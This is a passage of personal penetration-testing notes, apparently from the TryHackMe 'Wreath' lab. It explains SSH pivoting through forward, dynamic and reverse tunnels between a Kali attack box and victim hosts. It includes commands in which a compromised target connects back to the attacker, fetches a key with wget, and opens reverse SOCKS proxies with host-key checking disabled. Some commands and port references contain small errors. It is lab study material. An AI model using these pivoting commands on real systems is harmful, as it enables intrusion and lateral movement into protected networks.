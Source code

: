 ### TRY THIS FIRST!
KALI: 
```bash - kali
ssh-keygen -t rsa -N ‘’ -f ~/.ssh/key
```

TARGET:
```bash - target
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -I key kali@$KALI
```

With the dynamic reverse tunnel established, edit the /etc/proxychains4.conf to use the port 1080.

---

https://tryhackme.com/room/wreath

| Kali | Vic1 | Vic2 | 
| --- | --- | --- |
| 172.16.0.20 | 172.16.0.5 | 172.16.0.10

**Forward Connections**

Creating a forward (or "local") SSH tunnel can be done from our attacking box when we have SSH access to the target. As such, this technique is much more commonly used against Unix hosts. Linux servers, in particular, commonly have SSH active and open. That said, Microsoft (relatively) recently brought out their own implementation of the OpenSSH server, native to Windows, so this technique may begin to get more popular in this regard if the feature were to gain more traction.

There are two ways to create a forward SSH tunnel using the SSH client -- port forwarding, and creating a proxy.

-   Port forwarding is accomplished with the `-L` switch, which creates a link to a **L**ocal port. For example, if we had SSH access to 172.16.0.5 and there's a webserver running on 172.16.0.10, we could use this command to create a link to the server on 172.16.0.10:

==Run on kali==
```bash - kali
ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
```

-   We could then access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 _on our own_ _attacking machine._ For example, by entering `localhost:8000` into a web browser. Using this technique we have effectively created a tunnel between port 80 on the target server, and port 8000 on our own box. Note that it's good practice to use a high port, out of the way, for the local connection. This means that the low ports are still open for their correct use (e.g. if we wanted to start our own webserver to serve an exploit to a target), and also means that we do not need to use `sudo` to create the connection. The `-fN` combined switch does two things: `-f` backgrounds the shell immediately so that we have our own terminal back. `-N` tells SSH that it doesn't need to execute any commands -- only set up the connection.  
      
-   Proxies are made using the `-D` switch, for example: `-D 1080`. This will open up port 1337 on your attacking box as a proxy to send data through into the protected network. This is useful when combined with a tool such as proxychains. An example of this command would be:

```bash - kali
ssh -D 127.0.0.1:1080 user@172.16.0.5 -fN
```

This again uses the `-fN` switches to background the shell. The choice of port 1337 is completely arbitrary -- all that matters is that the port is available and correctly set up in your proxychains (or equivalent) configuration file. Having this proxy set up would allow us to route all of our traffic through into the target network.

**Reverse Connections**  

Reverse connections are very possible with the SSH client (and indeed may be preferable if you have a shell on the compromised server, but not SSH access). They are, however, riskier as you inherently must access your attacking machine _from_ the target -- be it by using credentials, or preferably a key based system. Before we can make a reverse connection safely, there are a few steps we need to take:

```bash - kali
ssh-keygen
```

Give it a name of "./reverse"

```bash - kali
./reverse
```

![[Pasted image 20220115184520.png]]

```bash - kali
ls -l reverse*
```

![[Pasted image 20220116104411.png]]

```bash - kali
touch ~/.ssh/authorized_keys
```

```bash - kali
mousepad ~/.ssh/authorized_keys
```

```bash - kali
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty
```

Paste in the contents of reverse.pub:

The final entry in the `authorized_keys` file should look something like this:

![[Pasted image 20220115184759.png]]

Check that ssh is running:

```bash - kali
sudo systemctl status ssh
```

if not, start it:

```bash - kali
sudo systemctl start ssh
```

Transfer private key to target box (Vic1).

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```bash - target
wget http://$KALI/reverse
```


| Kali | Vic1 | Vic2 | 
| --- | --- | --- |
| 172.16.0.20 | 172.16.0.5 | 172.16.0.10

```bash - Vic1
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

```bash - Vic1
ssh -R LOCAL_PORT:VICTIM2:VICTIM2_PORT kali@$KALI -i KEYFILE -fN
```

==Run the following on the Vic1 box (172.16.0.5)==

```bash - Vic1
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN
```

This would open up a port forward to our Kali box, allowing us to access the 172.16.0.10 webserver, in exactly the same way as with the forward connection we made before!

In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it:  
`ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`  

This, again, will open up a proxy allowing us to redirect all of our traffic through localhost port 1337, into the target network.

_**Note:** Modern Windows comes with an inbuilt SSH client available by default. This allows us to make use of this technique in Windows systems, even if there is not an SSH server running on the Windows system we're connecting back from. In many ways this makes the next task covering plink.exe redundant; however, it is still very relevant for older systems._

```bash - kali
ssh -N -R $TARGET:5555:127.0.0.1:5555 -p 2222 student@$TARGET
```